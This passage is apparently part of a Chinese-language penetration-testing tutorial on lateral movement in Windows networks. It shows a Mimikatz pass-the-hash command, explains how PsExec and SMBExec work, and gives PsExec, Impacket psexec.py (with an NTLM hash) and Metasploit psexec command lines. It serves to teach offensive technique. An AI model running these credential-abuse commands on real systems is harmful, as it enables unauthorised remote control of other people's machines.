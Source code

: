 ```powershell
sekurlsa::pth /user:administrator /domain:dar.com /ntlm:ac54ecea0c1d055abc1c7b3cfd960068 "/run:mstsc.exe /restrictedadmin"
```

# ****SMB协议的利用****

## PsExec远程控制

`PsExec`是微软官方提供的一款实用的`Windows`远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。

`PsExec`的原理是通过`SMB`连接到服务端的`Admin$`共享，并释放名为”`psexecsvc.exe`”的二进制文件，然后注册名为”`PSEXECSVC`”服务。当客户端执行命令时，服务端通过`PSEXECSVC`服务启动相应的程序执行命令并回显数据。运行结束后，`PSEXECSVC`服务会被删除。

使用`PsExec`进行远程操作时需要以下条件：

1. 远程主机开启了`Admin$`共享；
2. 远程主机的`139`或`445`端口需要开启状态，即`SMB`服务端口，并且防火墙需要放行端口；
3. 具备将文件写入共享文件夹的权限；
4. 具备明文密码或者`NTLM`哈希；
5. 能够在远程机器上创建服务：`SC_MANAGER_CREATE_SERVICE`；
6. 能够启动所创建的服务：`SERVICE_QUERY_STATUS && SERVICE_START`。

`PsExec`用法：

```powershell
psexec.exe -accepteula \\10.10.10.137 -u HACK-MY\Administrator -p Admin@123 -s cmd.exe

# -accepteula 禁止弹出许可证对话框
# -u 指定远程主机的用户名
# -p 指定用户的密码
# -s 以SYSTEM权限启动进程
```

在内网渗透中，如果已经具备相应的凭据（例如`IPC$`连接），那么可以直接使用`PsExec`连接远程主机。

```powershell
PsExec.exe -accepteula \\10.10.10.137 -s cmd.exe
```

在`Impacket`和`Metasploit`中都内置了基于`PsExec`执行远程命令的脚本或模块。

```powershell
# Impacket
python3 psexec.py domain/user:password@ip
python3 psexec.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24

# Metasploit
use exploit/windows/smb/psexec
```

## ****SMBExec远程控制****

利用`SMBExec`可以通过文件共享（`admin$`、`c$`、`ipc$`、`d$`）在远程系统中执行命令，它的工作方式类似于`PsExec`，但是`SMBExec`不会将二进制文件放入磁盘，`SMBExec`利用一个批处理文件和一个临时文件来执行和转发消息。
